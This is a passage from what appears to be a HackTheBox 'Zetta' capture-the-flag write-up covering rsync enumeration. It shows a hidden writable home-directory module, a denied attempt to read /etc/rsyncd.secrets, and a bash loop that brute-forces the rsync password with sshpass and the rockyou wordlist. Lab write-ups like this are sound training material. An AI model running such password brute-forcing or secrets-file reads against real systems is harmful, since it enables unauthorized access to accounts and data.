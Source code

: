 The `rsyncd.conf` file locks down access to the various directories shown in the list and only allows access from `104.24.0.54`:

```
[...]
# Allow backup server to backup /opt
[opt]
	comment = Backup access to /opt
	path = /opt
	# Allow access from backup server only.
	hosts allow = 104.24.0.54
[...]
```
However at the bottom there is a module that I haven't found before:

```
# Syncable home directory for .dot file sync for me.
# NOTE: Need to get this into GitHub repository and use git for sync.
[home_roy]
	path = /home/roy
	read only = no
	# Authenticate user for security reasons.
	uid = roy
	gid = roy
	auth users = roy
	secrets file = /etc/rsyncd.secrets
	# Hide home module so that no one tries to access it.
	list = false
```

Unfortunately I can't get access to the secrets file `/etc/rsyncd.secrets`:

```
root@kali:~/htb/zetta/tmp# rsync rsync://zetta.htb:8730/etc/rsyncd.secrets .
[]...]
rsync: send_files failed to open "/rsyncd.secrets" (in etc): Permission denied (13)
rsync error: some files/attrs were not transferred (see previous errors) (code 23) at main.c(1677) [generator=3.1.3]
```

I'll try to bruteforce the password by using a simple bash loop. I use the `sshpass` program to pass the password to the interactive logon:

```sh
#!/bin/bash

for p in $(cat /opt/SecLists/Passwords/Leaked-Databases/rockyou-10.txt)
do
    sshpass -p $p rsync -q rsync://roy@zetta.htb:8730/home_roy
    if [[ $? -eq 0 ]]
    then
        echo "Found password: $p"
        exit
    fi
done
```
